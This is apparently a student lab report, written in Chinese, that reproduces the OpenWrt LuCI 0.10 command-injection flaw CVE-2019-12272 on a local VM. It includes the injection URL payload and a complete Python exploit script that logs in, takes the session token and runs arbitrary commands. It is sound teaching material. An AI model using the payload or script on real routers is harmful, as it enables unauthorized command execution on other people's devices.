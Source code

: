## 移动通信与物联网安全概述

### 实验要求  
- [x] OpenWrt LuCI 0.10漏洞复现  
- [x] 编写自动化漏洞利用工具  
### 实验环境  
* 参考 第一章实验 OpenWrt on VirtualBox 的方法，下载安装存在该漏洞的 OpenWrt 镜像版本。  
* OpenWrt br-lan的IP地址：192.168.56.3
### 漏洞复现    
* 搭建好luCI环境，使用管理员权限登录  
    ![](img04/luci界面1.PNG)
    ![](img04/luci界面2.PNG)  
* 设置管理员密码  
    * system-->administration  
    * 或者OpenWrt终端通过password口令设置

* 使用浏览器访问 
    ```
    http://192.168.56.3/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt) 
    ```   
    触发漏洞   
    ![](img04/attack-luci.PNG) 
* 访问 http://192.168.56.3/cmd.txt 获取上一步命令执行的结果。  
![](img04/复现结果.PNG)  
* OpenWrt上出现command.txt文件  
![](img04/攻击成功.PNG)  
* 既然可以输出ifconfig的结果，就可以修改访问代码，输出其他命令，比如id、ls等命令  
    ![id](img04/id.PNG)
    ![](img04/ls.PNG)

### 漏洞利用   
* 通过 Chrome 浏览器开发者工具的「Copy as curl」功能，将漏洞复现请求复制为 curl 命令  
![](img04/copy.PNG)

* 通过第三方网站 将 curl 命令转换为 Python requests 代码  
    ```  
    import requests

    cookies = {
        'sysauth': '4d0127221bb93411098d3788e05dc678',
    }

    headers = {
        'Connection': 'keep-alive',
        'Cache-Control': 'max-age=0',
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.66',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
        'Accept-Language': 'zh-CN,zh;q=0.9',
    }

    response = requests.get('http://192.168.56.3/cgi-bin/luci/;stok=8112cbe04d3248924f97096f3b1e3d7a/admin/status/realtime/bandwidth_status/eth0%5E$(ifconfig%5E%%5E3ecmd.txt)', headers=headers, cookies=cookies, verify=False)
    ```  
### 编写自动化漏洞利用工具  

```  
import requests 

#用于字符串分割
from urllib.parse import urlparse 

#命令行传参
import sys
class CVE_2019_12272: 

    #定义实例变量，方便此类中的其他方法进行调用
    def __init__(self):
        self.host = '192.168.56.3'
        self.uname = 'root'
        self.upass = '123456'
        self.stok = ''
        self.cookies = ''
        self.headers = {
    'Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.66',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6',
}
    #自动化登录，发出请求，从响应中获取信息
    def login(self):

        data = {
  'luci_username': self.uname,
  'luci_password': self.upass
}
        #访问luci网页
        response = requests.post('http://{host}/cgi-bin/luci'.format(host=self.host), headers=self.headers, data=data, verify=False,allow_redirects=False)

        #获取cookies
        self.cookies = response.cookies
        location = response.headers['location']

        #获取此次登陆的stok（因为每次的登陆的stok都不一样）
        self.stok = urlparse(location).params
        #print(response.headers)
        #print(response.cookies)

        #打印结果是stok=······
        #print(stok)

    #自动化漏洞利用
    def shell(self, cmd):
        #等同于手动过程中的访问网址完成攻击
        url = 'http://{host}/cgi-bin/luci/;{stok}/admin/status/realtime/bandwidth_status/eth0%5E$({cmd}%3ecmd.txt)'.format(host=self.host,stok=self.stok,cmd=cmd)
        response = requests.get(url, headers=self.headers, cookies=self.cookies, verify=False)

    #输出上一步攻击的结果，并打印出来
    def view(self):
        #上一步指令的结果已经被写入到cmd.txt,所以访问这个文件查看
        url = 'http://{host}/cmd.txt'.format(host=self.host)
        response = requests.get(url, headers=self.headers)
        print(response.text)

if __name__ == "__main__":
    exp = CVE_2019_12272()
    exp.login()
    
    #可以自己在命令行输入口令，得到对应的攻击结果
    exp.shell(sys.argv[1])
    exp.view()  
```
* 运行结果示例  
![](img04/run1.PNG)
![](img04/run2.PNG)
  
* *一些补充*  
因为luci界面每次登录的stok都不同，所以自动化漏洞利用时不仅需要获取用户名和密码，还有stok，方法如下：
![](img04/获取stok.PNG)
然后同样copy as url后，使用在线工具转换成python代码
    ```  
    import requests

    headers = {
        'Connection': 'keep-alive',
        'Cache-Control': 'max-age=0',
        'Upgrade-Insecure-Requests': '1',
        'Origin': 'http://192.168.56.3',
        'Content-Type': 'application/x-www-form-urlencoded',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.66',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
        'Referer': 'http://192.168.56.3/cgi-bin/luci',
        'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6',
    }

    data = {
    'luci_username': 'root',
    'luci_password': '123456'
    }

    response = requests.post('http://192.168.56.3/cgi-bin/luci', headers=headers, data=data, verify=False)  
    ```
    打印这个response，获取我们需要的信息。
    ![](img04/获取stok2.PNG)

### 问题与解决  
本章暂无
### 参考资料
[移动互联网课件](https://github.com/c4pr1c3/cuc-mis/blob/master/chap0x04/cve-2019-12272.md)  

[移动互联网教学视频](https://www.bilibili.com/video/BV1rr4y1A7nz?p=100)